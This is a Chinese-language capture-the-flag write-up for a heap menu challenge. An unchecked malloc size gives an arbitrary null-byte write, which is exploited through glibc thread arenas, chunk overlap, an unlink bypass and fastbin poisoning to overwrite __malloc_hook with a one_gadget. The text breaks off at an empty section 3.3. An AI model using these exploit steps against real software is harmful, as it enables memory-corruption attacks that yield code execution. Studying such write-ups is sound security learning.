










# 零碎的知识点
### 1.main_arena 与 t_arena
malloc一个很当的空间时，int_malloc会返回null<br>
从而去调用arena_get_retry分配新的arena，再次尝试去分配内存，当然最后分配也是失败的<br>
一旦分配了新的arena，之后的堆操作会使用这个arena进行操作，可以参考arena_get函数<br>
新的arena的查看，p &main_arena->next 就可以找到新的arena的地址，进行查看
<br>

# 题目分析
menu题目<br>
<br>
### 漏洞点
漏洞点在new_note的malloc地方，malloc的size没有被限制，也没有校验malloc的返回值<br>
导致`*((_BYTE *)qword_202050[v1] + size - 1) = 0;`，任意地址写0<br>
<br>


## 总体思路
1.chunk块在free和malloc的时候没有对立面的内容进行清空，所以很容易可以泄露出main_arena的地址,进而获取libc的基址<br>
2.由于要使用任意地址写0这个操作，必定要malloc(big_size)，后续的操作都会在t_arena上进行。所以先将chunk移到t_arena上，然后泄露t_arena的基址<br>
3.这个题目，总共找到了五种解题方法（getshell或者成功写malloc_hook视为解题成功）<br>
3.1.这个题目一共只能申请三个chunk，使用chunka、chunkb、chunkc代替。思路为使用chunkb修改chunkc的pre_size，pre_size覆盖chunka,chunkb。然后将chunkc的inuse位写0,free(chunkc)达到conslidate(chunka+chunkb+chunkc)的目的，此时chunk


## 具体利用
### 1+2.前面的利用基址就不详细说了
### 3.1.free(chunkc) && conslidate(chunka+chunkb+chunkc)
使用chunkb去写chunkc的pre_size,chunkd防止top chunk和chunkc合并了，此时chunka和chunkc都挂在unsortedbin上。
```
  new(0,0x98,'A'*0x97)
  new(1,0x68,'B'*0x60+p64(0x140))
  new(2,0xf0,'C'*0xef)

  #like off-by-one-null
  delete(1)
  new(1,0x30,'D'*0x30)
  delete(2)
  delete(0)
  new(2,0x68,'B'*0x67)
```
<br>
chunkc在in use的情况下，size的值是105，因为是mmap分配的，free的情况下是101,此时将chunkc(freed)的in use位写0<br>
将chunkc malloc回来，然后在free，触发consolidate，在0x7ffff00008b0的地方有一个size=0x241大小的chunk挂在unsortedbin上<br>
之后申请都会先从这个chunk里面切割，last chunk。
```
  new(0,heap_addr-0x78+0x9f8+1,'')
  new(0,0xf0,'C'*0xef)
  delete(0)
```
<br>
此时chunkabc就能够写chunkb了，此时可以单独free(chunkb)，然后去写chunkb的fd，就可以将malloc_hook附近的地址放进chunkb的fd<br>
```
  delete(2)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x74)+p64(malloc_hook))
```
<br>
new两次，将malloc_hook附近的地址new出来就可以修改内容了，填成one_gadget getshell<br>
```
  new(2,0x68,'')
  delete(1)
  new(1,0x68,'A'*19+p64(0xdeedbeef))
```
<br>
### 3.2.free(chunka) && conslidate(chunka+chunkb)
这种方式和第一种类似，不过这里要绕过unlink里面double-linked list的机制<br>
第一种方式里面自带了合法的fd和bk，所以不需要特意构造fd和bk绕过double-linked机制<br>
这种解法要自己构造chunkb的fd+bk，让chunka和chunkb的fd+bk互相指向，来绕过double-linked机制<br>
满足以下条件:
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);

```
所以需要在满足double-linked条件下，将chunkc的in use位修改成0，标志着chunkb没有被使用<br>
那么在free(chunka)的时候，就会触发unlink机制，consolidate(chunka+chunkb)
```
  new(0,0x98,'A'*0x98)
  new(1,0x68,p64(0x7ffff00008b0)*2+'B'*0x50+p64(0x70))
  new(2,0xf0,'C'*0xef)
  delete(0)
  new(0,heap_addr-0x78+0x9f8+1,'') 
  new(0,0xc0,p64(0x7ffff0000980)*2+'A'*0xb0)
```
<br>
chunka+chunkb合并之后放入unsortedbin，作为last chunk，之后申请小于size(chunka+chunkb)的chunk都会切割last chunk<br>
```
  delete(0) #consolidate(chunka+chunkb)
  delete(1)
  malloc_hook=main_arena-0x78+5-0x18
  new(0,0xe0,0xc0*'a'+p64(0)+p64(0x75)+p64(malloc_hook))
```
<br>
之后将malloc_hook附近的chunk new出来，就可以改写malloc_hook了
```
  new(1,0x68,'')
  delete(0)
  new(0,0x68,'A'*19+p64(0xdeedbeef))
```
<br>

### 3.3.free(chunka) && conslidate(chunka+chunkb)


